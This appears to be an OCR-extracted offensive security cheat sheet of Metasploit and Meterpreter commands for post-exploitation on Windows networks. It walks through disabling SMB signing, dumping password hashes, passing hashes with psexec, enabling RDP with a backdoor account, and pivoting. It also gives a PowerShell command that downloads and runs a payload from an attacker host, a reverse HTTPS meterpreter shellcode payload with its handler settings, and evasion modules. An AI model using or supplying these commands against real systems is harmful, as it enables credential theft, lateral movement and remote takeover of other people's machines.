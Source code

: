 STATUS_ACCESS_DENIED (Command=117 WordCount=0):
This can be remedied by navigating to the registry key, "HKEY_LOCAL_MACHINE\System\CurrentControlSet\Services\LanManServer\Parameters" on the target systems and setting the value of "RequireSecuritySignature" to "0"

Run hashdump on the first compromised machine:
run post/windows/gather/hashdump

Run Psexec module and specify the hash:
use exploit/windows/smb/psexec

----------------- [+] Enable RDP:
meterpreter > run getgui -u hacker -p s3cr3t
Clean up command: meterpreter > run multi_console_command -rc /root/.msf3/logs/scripts/getgui/clean_up__20110112.2448.rc

----------------- [+] AutoRunScript
Automatically run scripts before exploiation:
set AutoRunScript "migrate explorer.exe"

[+] Set up SOCKS proxy in MSF

[+] Run a post module against all sessions
resource /usr/share/metasploit-framework/scripts/resource/run_all_post.rc

[+] Find local subnets 'Whilst in meterpreter shell'
meterpreter > run get_local_subnets

# Add the correct Local host and Local port parameters
echo "Invoke-Shellcode -Payload windows/meterpreter/reverse_https -Lhost 192.168.0.7 -Lport 443 -Force" >> /var/www/payload

# Set up psexec module on metasploit
auxiliary/admin/smb/psexec_command
set command powershell -Exec Bypass -NoL -NoProfile -Command IEX (New-Object Net.WebClient).DownloadString(\'http://192.168.0.9/payload\')

# Start reverse Handler to catch the reverse connection
Module options (exploit/multi/handler):
Payload options (windows/meterpreter/reverse_https):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique: seh, thread, process, none
   LHOST     192.168.0.9      yes       The local listener hostname
   LPORT     443              yes       The local listener port

# Show evasion module options
show evasion
